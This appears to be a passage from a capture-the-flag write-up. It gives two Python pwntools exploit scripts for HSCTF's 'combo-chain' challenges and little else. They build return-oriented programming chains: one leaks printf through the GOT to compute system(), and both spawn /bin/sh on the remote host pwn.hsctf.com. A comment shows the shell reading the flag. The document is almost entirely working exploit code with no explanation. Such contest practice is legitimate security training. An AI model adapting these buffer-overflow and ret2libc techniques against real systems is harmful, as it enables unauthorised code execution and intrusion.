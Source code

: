 ```python

payload = 'A' * 16
payload += p64(0x4011a4)  # main()
payload += p64(0x401263)  # pop rdi; ret;
payload += p64(0x404029)  # &(printf@got.plt) + 0x1
payload += p64(0x401050)  # vuln+37
payload += p64(0x401166)  # vuln()

p.sendline(payload + '\n')
p.recvuntil('COMBO CARNAGE!: ')

printf = p.recv(5)
printf_address = u64('\x00' + printf + '\x00\x00')
log.info('printf @ {}'.format(hex(printf_address)))

payload = 'B' * 16
payload += p64(0x401263)  # pop rdi; ret;
payload += p64(0x402031)  # "/bin/sh"
payload += p64(printf_address - 0x10470)  # system()

p.sendline(payload + '\n')
p.interactive()
p.close()
```

## combo-chain-lite

```python
#!/usr/bin/python2

#
# $ python get.py
# [+] Opening connection to pwn.hsctf.com on port 3131: Done
# [*] system: 0x7f01a1c16390
#
# Dude you hear about that new game called /bin/sh? Enter the right combo for some COMBO CARNAGE!:
# [*] Switching to interactive mode
# $ cat flag
# hsctf{wheeeeeee_that_was_fun}
#

from pwn import *

# p = process('./combo-chain-lite')
p = remote('pwn.hsctf.com', 3131)

p.recvuntil('computer: ')
system = int(p.recv(14), 16)

log.info('system: {}'.format(hex(system)))

payload = '//bin/sh##AAAAAA'
payload += p64(0x00401273)
payload += p64(0x00402051)
payload += p64(system)

print p.recvuntil('COMBO CARNAGE!: ')

p.sendline(payload)
p.interactive()
p.close()
```
